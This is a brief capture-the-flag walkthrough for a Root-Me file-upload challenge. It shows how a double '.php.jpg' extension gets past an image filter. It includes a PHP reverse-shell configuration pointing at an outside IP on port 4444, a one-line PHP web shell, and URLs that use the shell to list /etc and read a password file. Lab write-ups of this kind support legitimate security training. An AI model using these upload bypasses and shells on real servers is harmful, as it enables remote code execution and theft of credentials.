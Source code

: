 # File upload(php-webshell) - Double extensions(php.jpg or jpg.php)

└─$ find /opt -name '\*php' 2>/dev/null

/opt/webshells/php/php-reverse-shell.php

└─$ curl ifconfig.me 192.40.57.235

set\_time\_limit (0); $VERSION = "1.0"; $ip = '192.40.57.235'; // CHANGE THIS $port = 4444; // CHANGE THIS $chunk\_size = 1400; $write\_a = null; $error\_a = null; $shell = 'uname -a; w; id; /bin/sh -i'; $daemon = 0; $debug = 0;

└─$ cp php-reverse-shell.php php-reverse-shell.php.jpg

\->

then upload

and then

take the link http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/70a011aab16ec40b0a674598c47f0a99/php-reverse-shell.php.jpg

\->

then I port forwarded with local ip and port 4444

\->

not working

\->

then in order to bypass filter: it must end with jpeg extension but in order to be executed: it must have php

web\_shell.php.jpg

```
<?php
    system($_GET[cmd]);
?>
```

\->

http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/d6335bcb6c9bb4e3cf4f185ff565d68d/web\_shell2.php.jpg?cmd=ls%20/etc

\->

http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/d6335bcb6c9bb4e3cf4f185ff565d68d/web\_shell2.php.jpg?cmd=cat%20../../../.passwd

